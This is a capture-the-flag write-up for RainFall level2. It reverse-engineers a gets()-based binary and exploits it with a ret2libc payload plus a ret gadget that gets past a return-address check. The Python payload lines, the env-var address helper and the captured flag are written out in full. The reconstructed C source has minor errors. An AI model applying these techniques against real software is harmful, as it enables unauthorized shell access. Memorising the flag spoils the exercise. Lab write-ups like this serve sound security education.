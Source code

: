 ## level2
 ![image](https://hackmd.io/_uploads/S12njR2N6.png)
On the surface, it looks like the program here is similar to the past level, where it takes in an input and prints it. The objdump of the program is the following :  

![image](https://hackmd.io/_uploads/BkSYi2EBT.png)

Its a main function that does stack alignment and calls function `p` without any input.

the `p` function however, does alot of things.

after setting up the stack frame, it loads stdout into the first argument of `fflush` and calls it.

![image](https://hackmd.io/_uploads/BycRDa4HT.png)

After fflush returns, a pointer at the address `ebp - 0x4c` is loaded to the first argument to `gets()` @ `0x80448ed` and calls it. With this information, we know that a buffer starts at `ebp - 0x4c` now.

After gets returned, it seems like the saved EIP is extracted and put into eax, which is put into a value in the stack with the address `ebp - 0xc`. The saved EIP is then masked to match 0xb0000000, which if its equals, `printf` is called followed by `exit`. The function will not call the saved EIP.

And according to [this manual](https://gcc.gnu.org/onlinedocs/gcc/Return-Address.html), the function `__builtin_return_address ` returns the save EIP of the current function, which might be `0x80484f2` is doing.

If its not equal however, it loads the buffer which is written by `gets()` into the first argument of puts then it is called. 

The buffer from `gets()` is also loaded into the first argument of strdup, which is called and returned to the parent since there are no writes to `eax`.

After looking at the stack allocations, we are also able to determine the size of the buffer.

![image](https://hackmd.io/_uploads/r1K1C6Nra.png)


```clike=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
    
void p()
{
    // 0x80484e7
    char buffer[64];
    void *saved_eip
    
    // 0x80484e2
    fflush(stdout);
    
    // 0x80484ed
    gets(buffer);
    
    // 0x80484f2 - 0x80484f5
    saved_eip = __builtin_return_address(0);
    if ((saved_eip & 0xb0000000) == 0xb0000000)
    {
        printf("%x\n", saved_eip);
        exit(1);
    }
    
    // 0x8048500
    if (((unsigned long)saved_eip & 0xb0000000) ==  0xb0000000)
	{
        // 0x8048516
		printf("(%p)\n", saved_eip);
		exit(1);
	}
        
    // 0x804852d
    puts(buffer);
    
    // 0x8048538
    return strdup(buffer);
}

int main()
{
    p();
}
```
First off, with any buffer overflow exploit, we need to determine the offset to the EIP. Using information from this level and last level, our offset should be

```
sizeof buffer + sizeof saved_eip + sizeof ebp

=>

64 + 12 + 4 = 80
```

Notice there **is no stack alignemnt as we dont see `and 0xfffffff0`**. And we can verify it like so by comparing the input length of 81

![image](https://hackmd.io/_uploads/BkojzM8B6.png)

and 80 
![image](https://hackmd.io/_uploads/rkFafzUH6.png)


Looking at the program behaviour, we are not supposed to overwrite the EIP to any instruction pointer in the program since the program code all starts with 0x8000000. Trying to do so will cause `exit()` to be called instead of return, which means the EIP wont be read.

To circumvent this, we pass the libc function `system()` as the return address override instead, also providing its inputs on the stack. AKA ret2libc

To get the pointer to the `system()` function, create a program that calls `system()`, open it in gdb and use the `print` command to display the value of the `system()` function, which will be a instruction pointer `0xb7e6b060`

![image](https://hackmd.io/_uploads/B1wCSWIBp.png)

After that, we have to find a way to populate the parameters of the function. Since libC functions **reads inputs return addresses and inputs from the stack**, The first 4 bytes is the return address, we dont want  to return anything, so we just put random bytes `BEEF`. the next 4 bytes should be a string, which is a pointer to a character sequence, which we can utilize the environment variables like so:

```clike=
// getenv.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
         }
        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```


```
level2@RainFall:/tmp$ gcc getenv.c; ./a.out BINSH ./level2
BINSH will be at 0xbfffff38
level2@RainFall:/tmp$
```
we are able to predict the address because environment variables are stored at the start of the stack frame which is relative of the programs name, which gives us `0xbfffff38`

So, our input shall be 
`python -c "print 'B' * 80 + '\xb7\xe6\xb0\x60'[::-1] + 'BEEF' + '\xbf\xff\xff\x38'[::-1]" > /tmp/out`

OOPS, I forgot about the check stack check earlier at `0x80484f2 - 0x80484f5` and I got the printf output.

```
level2@RainFall:~$ ./level2 < /tmp/out
(0xb7e6b060)
```

Based on [this SO post](https://stackoverflow.com/questions/5130654/when-how-does-linux-load-shared-libraries-into-address-space), **.so objects are loaded into mmaped memory (stack)** during runtime, hence failing the check.

I digged around the acutal working of the `lea` and `ret` instruction and here are the things they do according to [this](https://www.felixcloutier.com/x86/leave) and [this](https://www.felixcloutier.com/x86/ret).

The leave instruction does the following:

- Copies the frame pointer (in the EBP register) into the stack pointer register (ESP). This effectively releases the stack space that was allocated to the current function's stack frame.
- **Pops** the old frame pointer (the frame pointer for the calling procedure that was saved by the enter instruction) from the stack into the EBP register. This restores the calling procedure's stack frame 2.


The ret instruction does not take any operands and its operation is as follows:

- It **pops** the return address from the stack into the instruction pointer (EIP for x86, RIP for x86_64).
- It then jumps to the address stored in the instruction pointer.

![image](https://hackmd.io/_uploads/Sk6Sf7uSa.png)

As we can see, the `lea` and `ret` command pops from the stack, slowly consuming it. The `lea` command does not check if the value it pops is valid or not, neither does `ret`. It just **assumes** that all the data it popped is in the correct position and just writes to the registers.

With this knowledge, we are able to chain `ret` calls to bypass the stack check like so:

![image](https://hackmd.io/_uploads/B1xWEX_ST.png)

To prove that, I made the input command using the command below. the `'\x08\x04\x85\x3e'[::-1]`s are addresses to the `ret` instructions.

`python -c "print 'B' * 80 + '\x08\x04\x85\x3e'[::-1] + '\xb7\xe6\xb0\x60'[::-1] + 'BEEF' + '\xbf\xff\xff\x38'[::-1]" > /tmp/out`

After that, I launch the program with stdin open using 
`cat /tmp/out - | ./level2` and it works. The flag is `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`
![image](https://hackmd.io/_uploads/HJSbIXOST.png)

And the final source code is 
```clike=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
    
char * p()
{
    // 0x80484e7
    char buffer[64];
    void *saved_eip
    
    // 0x80484e2
    fflush(stdout);
    
    // 0x80484ed
    gets(buffer);
    
    // 0x80484f2 - 0x80484f5
    saved_eip = __builtin_return_address(0);
    if ((saved_eip & 0xb0000000) == 0xb0000000)
    {
        printf("%x\n", saved_eip);
        exit(1);
    }
    
    // 0x8048500
    if (((unsigned long)saved_eip & 0xb0000000) ==  0xb0000000)
	{
        // 0x8048516
		printf("(%p)\n", saved_eip);
		exit(1);
	}
        
    // 0x804852d
    puts(buffer);
    
    // 0x8048538
    return strdup(buffer);
}

int main()
{
    p();
}
```